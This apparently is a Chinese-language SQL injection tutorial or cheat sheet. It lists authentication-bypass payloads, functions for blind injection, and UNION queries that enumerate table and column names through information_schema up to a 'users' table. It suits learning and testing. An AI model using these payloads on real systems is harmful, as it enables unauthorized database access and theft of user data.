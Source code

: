 - admin’ –
- admin’ #
- admin’/*
- ’ or 1=1–
- ’ or 1=1#
- ’ or 1=1/*
- ') or ‘1’='1–
- ') or (‘1’='1–

#### SQL注入常见函数

- group_concat函数 可以把查询的内容组合成一个字符串
- load_file(file name ) 读取文件并将文件按字符串返回
- left（string，length）返回最左边指定的字符数：
- left（database（），1）>‘s’ (猜名字)
- length（）判断长度
- length（database（）>5
- substr（a，b，c）从字符串a中截取 b到c长度
- ascii（）将某个字符转为ascii值
- ascii（substr（user（），1，1））=101#
- mid（（a，b，c）从字符串a中截取 b到c位置（可以用来猜数据库名 ）

#### 联合爆库：

这里假设有3列：

为了让联合注入工作，首先要知道数据库中的表名，键入：

```sql
id=-1' union select 1,table_name,3 from information_schema.tables where table_schema=database() --+ //--+是把语句闭合后注释掉后面的语句
```

有时程序可能不会打印出所有的行，这时我们就得使用关键字limit一条条进行查询，键入：

```sql
id=-1' union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 1,1 --+
id=-1' union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 2,1 --+
```

或者可以用group_concat():

```sql
id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
```

假设有'users'表

现在看其中的一个表，为了提取其信息，键入：

```sql
id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+
```
